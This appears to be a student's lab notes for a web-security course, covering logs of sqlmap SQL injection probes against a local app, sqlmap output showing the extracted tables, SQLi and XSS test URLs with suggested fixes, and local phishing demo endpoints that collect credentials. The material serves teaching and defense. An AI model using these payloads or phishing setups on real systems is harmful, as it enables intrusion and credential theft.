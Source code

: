 **Lab3:**

Log file analizer usage:

```
# Show 4xx errors
python log_analyzer.py 1

# Show URL statistics
python log_analyzer.py 2

# Watch logs in real-time
python log_analyzer.py 3

# Specify a different log directory
python log_analyzer.py 2 --log-dir /path/to/logs
```

**Lab 4:**

The logs are showing us that SQLmap is testing for SQL injection on GET parameter 'nume'. It tried different attacks and it successfully extracted the users table. 


```
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 info: Searching for: Ion' UNION ALL SELECT CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113)||(SELECT (CASE WHEN (LENGTH(SYSDATE)=LENGTH(SYSDATE)) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113),NULL FROM DUAL-- rqBU
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such table: DUAL
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200 info: Searching for: Ion' UNION ALL SELECT (CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (CONVERT_TO('QXrQ',QUOTE_IDENT(NULL)) IS NULL) THEN (CHR(49)) ELSE (CHR(48)) END))||(CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113)),NULL-- IARt
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200
 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: CHR
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113)+CHAR(118)+CHAR(107)+CHAR(112)+CHAR(113)+(CASE WHEN (UNICODE(SQUARE(NULL)) IS NULL) THEN CHAR(49) ELSE CHAR(48) END)+CHAR(113)+CHAR(112)+CHAR(120)+CHAR(122)+CHAR(113),NULL-- HkCf
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: SQUARE
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113,118,107,112,113)||(SELECT (CASE WHEN (LAST_INSERT_ROWID()=LAST_INSERT_ROWID()) THEN 1 ELSE 0 END))||CHAR(113,112,120,122,113),NULL-- ksZP
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Rendering cauta page
```

```
[10:01:01] [INFO] the back-end DBMS is SQLite
[10:01:01] [INFO] fetching banner
web application technology: Express
back-end DBMS: SQLite
banner: '3.44.2'
[10:01:01] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+-----------------+
| sqlite_sequence |
| users           |
+-----------------+

```
SQLite integration tutorial: https://www.sqlitetutorial.net/sqlite-nodejs/


**Lab5:**

Possible problems and how to solve it:
```
Access to fetch at 'http://localhost:5000/api/data' from origin 'http://localhost:4567' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled
```

**Lab6:**

URL vulnerabil:
```
http://localhost:4567/cauta?q=' OR '1'='1
```
In acest caz, query-ul devine ```SELECT * FROM users WHERE name = '' OR '1'='1' ``` si ```OR '1'='1'``` este mereu adevarat, deci ne vor fi returnati toti utilizatorii din tabelul users. Pentru a rezolva problema SQL injection, trebuie sa sanitizam datele, de exemplu prin utilizarea Sequelize. Aceasta sanitizare se face si automat cu ajutorul sqlite.

URL vulnerabil:
```
http://localhost:4567/cauta?q=<script type="text/javascript">alert("vulnerable");</script>
```
Acsta va realiza un pop up de tip alerta in care se va mentiona ca siteul este vulnerabil. Pentru a preveni acest tip de atac trebuie sa utilizam ```<%= %>``` în loc de ```<%- %>```. De asemenea, ar trebui sa sanitizam datele primite din query.


You need to enable CORS on the server where the API is hosted (http://127.0.0.1:5000)

**Lab10:**

Link to see the phishing email: http://localhost:5000/api/email
Link to the fake amazon phishing page: http://localhost:5000/api/phishing
Link to view the credentials sent to the server: http://localhost:5000/api/view-credentials

**Lab11:**

You can use this command to use the openssl in Windows more easily
```
"C:\Program Files\Git\usr\bin\openssl.exe" req -nodes -new -x509 -keyout server.key -out server.cert -days 365
```

